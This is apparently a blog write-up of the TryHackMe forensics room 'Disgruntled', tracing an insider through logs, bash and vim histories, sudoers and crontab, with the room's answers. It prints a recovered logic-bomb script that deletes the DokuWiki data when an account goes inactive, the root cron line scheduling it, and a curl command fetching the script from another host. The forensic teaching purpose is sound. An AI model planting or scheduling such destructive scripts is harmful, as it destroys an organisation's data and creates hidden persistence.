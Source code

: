```yaml
---
layout: post
title: THM CTF Disgruntled
tags: [THM, CTF, Linux, Forensics]
author: NonoHM
date: 2024-03-31 16:08:51
toc:
    sidebar: left
    toc-depth: 3
---
```


## Task 1 - Introduction

In this room, we will have to investigate into the CyberT's IT departement guy's machine to check if he has done anything malicious to CyberT's assets.

## Task 3 - Nothing suspicious... So far

To start with, we check the informations about the OS with `cat  /etc/os-release`.

``` sh
NAME="Ubuntu"
VERSION="18.04.5 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.5 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```

We can see this is a normal Ubuntu 18.04.5.

Then, we check what are the users on the machine in the `passwd` file.

``` sh
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
cybert:x:1001:1001::/home/cybert:/bin/bash
it-admin:x:1002:1002:,,,:/home/it-admin:/bin/bash
```

These three users are the only "normal" ones available on the system.

When we look into sudoers file, we can see *cybert* and *it-admin* have all privileges on the system.

``` sudoers
# User privilege specification
root    ALL=(ALL:ALL) ALL
cybert  ALL=(ALL:ALL) ALL
it-admin ALL=(ALL:ALL) ALL
```

Instructions gives us a hint to look if there is any installed package using privileged account. Thus, we will look for anyone who had used the `apt` command using `cat /var/log/auth.log* | grep -i apt`.

``` sh
Dec 28 06:19:01 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/bin/apt install dokuwiki
```

We can see that user *cybert* has installed *dokuwiki*.

To know what DokuWiki is, it is an open-source wiki software that enables easy collaborative website content management through text files, without requiring a database backend.  

It looks like a normal package to install.

### Questions

**The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?**

*Answer: `/usr/bin/apt install dokuwiki`*

**What was the present working directory (PWD) when the previous command was run?**

*Answer: `/home/cybert`*

## Task 4 - Let’s see if you did anything bad

The instructions here says that IT was supposed to only install a service so we need to check if there is unrelated commands.

We can see it in the cybert's bash history using the command `cat /home/cybert/.bash_history`.

Here are the suspicious commands we could find:

``` sh
sudo adduser it-admin
sudo visudo
su it-admin
exit
sudo passwd root
su root
exit
su root
nano /etc/ssh/sshd_config 
sudo nano /etc/ssh/sshd_config 
```

It seems that the IT guy have added a new user named *it-admin*, changed sudoers file, changed root password and sshd configuration.

We can see the sudoers file has been changed by user *cybert* on December 28 at 6:27 AM.

``` sh
Dec 22 07:58:24 ip-10-10-158-38 sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/sbin/visudo
Dec 28 06:27:34 ip-10-10-168-55 sudo:   cybert : TTY=pts/0 ; PWD=/home/cybert ; USER=root ; COMMAND=/usr/sbin/visudo
```

When looking at the *it-admin*'s bash history with `cat /home/it-admin/.bash_history `, we are able to see a questionable script named *bomb.sh* downloaded by our friend.

``` sh
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
sudo vi bomb.sh
ls
rm bomb.sh
sudo nano /etc/crontab
exit
```

### Questions

**Which user was created after the package from the previous task was installed?**

*Answer: `it-admin`*

**A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)**

*Answer: `Dec 28 06:27:34`*

**A script file was opened using the "vi" text editor. What is the name of this file?**

*Answer: `bomb.sh`*

## Task 5 - Bomb has been planted. But when and where?

Here, we need to know where the script came from and what it contains.

From the previous history command, we saw that the command used to retrieve the script is `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`.

By checking vi history using `cat /home/it-admin/.viminfo`, we see that the file has been saved somewhere else at `/bin/os-update.sh`. This explains why the *bomb.sh* has been deleted.

``` vi
# Command Line History (newest to oldest):
:q!
|2,0,1672208992,,"q!"
:saveas /bin/os-update.sh
|2,0,1672208983,,"saveas /bin/os-update.sh"
```

Using `stat /bin/os-update`, we get information on when it has been last modified.

``` stat
Access: 2022-12-28 06:29:43.998004273 +0000
Modify: 2022-12-28 06:29:43.998004273 +0000
Change: 2022-12-28 06:29:43.998004273 +0000
```

Lastly, we need to know what this script does. In order to know that, we will check its content.

``` bash
# 2022-06-05 - Initial version
# 2022-10-11 - Fixed bug
# 2022-10-15 - Changed from 30 days to 90 days
OUTPUT=`last -n 1 it-admin -s "-90days" | head -n 1`
if [ -z "$OUTPUT" ]; then
        rm -r /var/lib/dokuwiki
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r
" > /goodbye.txt
fi
```

We are now able to understand what the script does. Firstly, it gets if the user it-admin connected wihtin 90 days. Then, if not, it will erase the dokuwiki site and write a vengeance message into *goodbye.txt*.
This is probably made to piss off the company if our friend got fired. 

### Questions

**What is the command used that created the file bomb.sh?**

*Answer: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`*

**The file was renamed and moved to a different directory. What is the full path of this file now?**

*Answer: `/bin/os-update.sh`*

**When was the file from the previous question last modified? (Format: Month Day HH:MM)**

*Answer: `Dec 28 06:29`*

**What is the name of the file that will get created when the file from the first question executes?**

*Answer: `goodbye.txt`*

## Task 6 - Following the fuse

Now that we know how the script work, we need to know when it will be executed. We remember that our friend modified crontab file, so will check it with `cat /etc/crontab`.  

``` cron
0 8     * * *   root    /bin/os-update.sh
```

This script will be executed at 8 AM every day by root user.

### Question

**At what time will the malicious file trigger? (Format: HH:MM AM/PM)**

*Answer: `08:00 AM`*

## Task 7 - Conclusion

In summary, our investigation into the Disgruntled THM CTF scenario revealed suspicious actions by an insider in CyberT's IT department. By thoroughly examining user accounts, permissions (sudoers), logs, and command histories (bash and vim), we uncovered a hidden plan to harm the company's systems and found a malicious script intended to cause damage. This script would delete all the files of the dokuwiki if the user has not logged into this machine in the last 90 days.  
This scenario emphasizes the need for strong security measures and proactive threat detection.  
